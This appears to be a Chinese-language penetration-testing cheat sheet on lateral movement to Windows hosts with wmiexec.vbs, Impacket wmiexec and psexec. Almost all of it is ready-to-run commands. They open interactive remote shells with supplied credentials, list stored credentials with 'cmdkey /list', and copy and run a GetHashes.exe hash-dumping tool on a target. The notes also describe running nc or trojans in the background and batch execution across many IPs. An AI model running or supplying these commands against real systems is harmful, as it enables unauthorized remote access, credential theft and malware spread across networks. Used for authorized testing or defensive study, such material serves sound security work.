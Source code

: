 wmiexec.vbs(需要安装)  

### 前提

开启 wmi 服务，135 端口

### 安装

下载 vmiexec.vbs

### 命令执行

```
cscript.exe //nologo wmiexec.vbs /shell 170.170.64.19 admin passwd
cscript.exe wmiexec.vbs /cmd 170.170.64.19 admin passwd "cmdkey /list"
cscript.exe wmiexec.vbs /cmd 170.170.64.19 admin passwd c:\programdata\test.bat
#其他参数
-wait5000 表示这个命令等待5s后再读取结果，用于运行“运行时间长”的命令。
-persist 程序会在后台运行，不会有结果输出，而且会返回这个命令进程的 PID，方便结束进程，用于运行 nc 或者木马程序。
```

impackets wmiexec(需要安装)  

### 前提

开启 wmi 服务，135 端口

### 安装

```
git clone https://github.com/SecureAuthCorp/impacket/
pip install -r requirements.txt
pip install impacket
```

命令执行

```
#获取远程计算机交互式shell
python wmiexec.py admin:passwd@170.170.64.19
```

psexec(需要安装)  

### 前提

开启 admin$ 共享

### 安装

在 https://docs.microsoft.com/en-us/sysinternals/downloads/psexec 下载安装

### 命令执行

```
#打开交互式shell
psexec \\170.170.64.19 -u admin -p passwd cmd
#执行单条命令
psexec \\170.170.64.19 -u admin -p passwd -s cmd /c "calc.exe"
#拷贝文件到远程计算机并执行
psexec \\170.170.64.19 -u admin -p passwd -c C:\Users\Administrator\Desktop\GetHashes.exe

#其他参数
–accepteula 第一次运行会弹框,输入这个参数便不会弹框
-s 以 “nt authority\system” 权限运行远程进程
-h 如果可以，以管理员权限运行远程进程
-d 不等待程序执行完就返回，请只对非交互式应用程序使用此选项
\\ip 可以替换成 @ip.txt (存放多个 ip 的文本)，可以批量执行命令
```